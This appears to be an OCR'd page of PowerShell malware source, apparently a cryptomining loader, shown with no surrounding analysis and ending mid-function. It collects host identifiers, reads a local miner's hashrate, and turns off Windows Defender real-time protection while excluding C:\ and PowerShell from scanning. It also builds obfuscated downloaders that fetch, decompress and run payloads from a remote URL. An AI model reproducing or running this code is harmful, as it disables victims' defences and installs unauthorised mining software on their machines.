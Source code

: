 ```powershell
$permit = ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
$comp_name = $env:COMPUTERNAME
$guid = (get-wmiobject Win32_ComputerSystemProduct).UUID
$mac = (Get-WmiObject Win32_NetworkAdapterConfiguration | where {$_.ipenabled -EQ $true}).Macaddress | select-object -first 1
$osb = (Get-WmiObject -class Win32_OperatingSystem)
$os = $osb.Caption.replace("Microsoft Windows ","")+"_"+$osb.Version
$user = $env:USERNAME
$domain = (Get-WmiObject win32_computersystem).Domain
$uptime = [timespan]::FromMilliseconds([environment]::TickCount)|foreach{$_.totalseconds}
$card = (Get-WmiObject Win32_VideoController).name
gwmi Win32_PhysicalMemory | %{$msum = 0} { $msum += $_.Capacity };$mem=$msum/1Gb
try{
$drive = ([system.IO.DriveInfo]::GetDrives() | where {$_.IsReady -and ($_.AvailableFreeSpace -gt 1024) -and (($_.DriveType -eq "Removable") -or ($_.DriveType -eq "Network")) -and (($_.DriveFormat -eq "NTFS") -or ($_.DriveFormat -eq "FAT32"))} | foreach{($_.Name)[0]+"_"+($_.DriveType.tostring())[0]})-join"|"}catch{}
$timestamp = (Get-Date -UFormat "%s").Substring(0,9)
try{
[Reflection.Assembly]::LoadWithPartialName("System.Web.Extensions")
$obj = (New-Object Web.Script.Serialization.JavaScriptSerializer).DeserializeObject((ne`w-obj`ect net.webc`lient)."downloadstring"('http://127.0.0.1:43669/1/summary'))
$mv=$obj.version
$mip=$obj.connection.ip
$mhr=$obj.hashrate.total-join(',')}catch{}
try{
	Set-MpPreference -DisableRealtimeMonitoring 1
	Add-MpPreference -ExclusionPath c:\
	Add-MpPreference -ExclusionProcess c:\windows\system32\WindowsPowerShell\v1.0\powershell.exe
    Add-MpPreference -ExclusionProcess c:\windows\system32\WindowsPowerShell\v1.0\$rename
}catch{}
if(($card -match "GTX|NVIDIA|GEFORCE")){$isn=1}
if(($card -match "Radeon|AMD")){$isa=1}
$v=$url.split("?")[1]
$params=@($v,$comp_name,$guid,$mac)-join"&"
set-location $env:tmp
function stp($gra){
    write-host $gra
	Start-Process -FilePath cmd.exe -ArgumentList "/c $gra"
}
function gcf($code,$md,$fn){
	('echo '+$code+';$ifmd5='''+$md+''';$ifp=$env:tmp+''\'+$fn+''';$down_url='''+$down_url+''';function gmd5($con){[System.Security.Cryptography.MD5]::Create().ComputeHash($con)|foreach{$s+=$_.ToString(''x2'')};return $s}if(test-path $ifp){$con_=[System.IO.File]::ReadAllBytes($ifp);$md5_=gmd5 $con_;if($md5_-eq$ifmd5){$noup=1}}if(!$noup){$con=(Ne`w-Obj`ect Net.WebC`lient).downloaddata($down_url+''/'+$fn+'?'+$params+''');$t=gmd5 $con;if($t-eq$ifmd5){[System.IO.File]::WriteAllBytes($ifp,$con)}else{$noup=1}}if($noup){$con=$con_;$ifmd5=$md5_}').replace('|','^^^|').replace('&','^^^&')
}
function gpa($fnam,$name){
	('for($i=0;$i -lt $con.count-1;$i+=1){if($con[$i] -eq 0x0a){break}};i`ex(-join[char[]]$con[0..$i]);$bin=(New-Object IO.BinaryReader(New-Object System.IO.Compression.GzipStream (New-Object System.IO.MemoryStream(,$con[($i+1)..($con.count)])), ([IO.Compression.CompressionMode]::Decompress))).ReadBytes(10000000);$bin_=$bin.Clone();$mep=$env:tmp+'''+"\$fnam.ori"+''';[System.IO.File]::WriteAllBytes($mep,$bin_+((1..127)|Get-Random -Count 100));test1 -PEBytes $bin').replace('|','^^^|').replace('&','^^^&')+"|$name - &cmd /c copy /y %tmp%\$fnam.ori %tmp%\$fnam.exe & %tmp%\$fnam.exe"
}
function gpb($name){
    'I`EX(-join[char[]]$con)|'+$name+' -'
}
function gcode($fl) {
	'try{$local'+$fl+'=$flase;New-Object Threading.Mutex($true,''Global\eLocal'+$fl+''',[ref]$local'+$fl+')}catch{}'
```